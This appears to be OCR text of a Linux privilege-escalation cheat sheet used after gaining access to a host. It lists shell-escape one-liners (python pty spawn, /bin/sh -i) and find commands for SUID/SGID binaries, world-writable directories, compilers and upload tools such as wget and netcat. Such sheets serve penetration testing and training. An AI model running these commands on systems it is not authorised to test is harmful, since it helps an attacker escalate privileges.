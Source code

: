 
If commands are limited, you break out of the "jail" shell?
python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i

How are file-systems mounted?
mount
df -h

Are there any unmounted file-systems?
cat /etc/fstab

What "Advanced Linux File Permissions" are used? Sticky bits, SUID & GUID
find / -perm -1000 -type d 2>/dev/null # Sticky bit - Only the owner of the directory or the owner
of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null # SGID (chmod 2000) - run as the group, not the user who
started it.
find / -perm -u=s -type f 2>/dev/null # SUID (chmod 4000) - run as the owner, not the user
who started it.
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null # SGID or SUID
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done #
Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any
other *bin, for SGID or SUID (Quicker search)
# find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more
detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null

Where can written to and executed from? A few 'common' places: /tmp, /var/tmp,
/dev/shm
find / -writable -type d 2>/dev/null # world-writeable folders
find / -perm -222 -type d 2>/dev/null # world-writeable folders
find / -perm -o w -type d 2>/dev/null # world-writeable folders
find / -perm -o x -type d 2>/dev/null # world-executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null # world-writeable & executable folders

Any "problem" files? Word-writeable, "nobody" files
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print # world-writeable files
find /dir -xdev \( -nouser -o -nogroup \) -print # Noowner files

Preparation & Finding Exploit Code

What development tools/languages are installed/supported?
find / -name perl*
find / -name python*
find / -name gcc*
find / -name cc
How can files be uploaded?
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp
Tricks
